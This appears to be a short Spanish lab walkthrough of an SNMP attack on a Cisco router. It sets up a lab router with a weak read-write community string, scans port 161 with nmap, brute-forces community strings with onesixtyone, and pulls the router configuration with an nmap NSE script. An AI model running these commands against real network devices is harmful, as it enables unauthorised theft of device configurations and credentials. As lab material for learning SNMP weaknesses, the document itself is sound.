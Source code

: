 ```yaml
---
theme: "just-the-docs"
title: "PoC SNMP Cisco"
layout: default
nav_order: 16
parent: "Seguridad Ofensiva"
---
```

# PoC SNMP Cisco
## Configuracion de router Cisco
```
int fa0/0
 no shutdown
 ip address dhcp
username lesand password lesand2024
enable secret lesand2024
snmp-server community lesand2024 rw
end
copy running-config startup-config
```
```
show ip int brief | inc DHCP
```
## Verificacion de Puerto de SNMP
```
sudo nmap -sU -sV -p 161 192.168.85.137
```
## Creacion de listado de IPs
```
cd /home/lesand/Desktop/tools/diccionarios  
echo -e "192.168.85.137" > IPs.txt
```
## Ataque de diccionario SNMP.
```
onesixtyone -c dicc.txt -i IPs.txt -o snmp-one.txt
cat snmp.txt
```
## Descarga de configuraciones de SNMP con NSE de NMAP
```
sudo nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:lesand2024 192.168.85.137 -oN snmp-nmap.txt 192.168.85.137
```
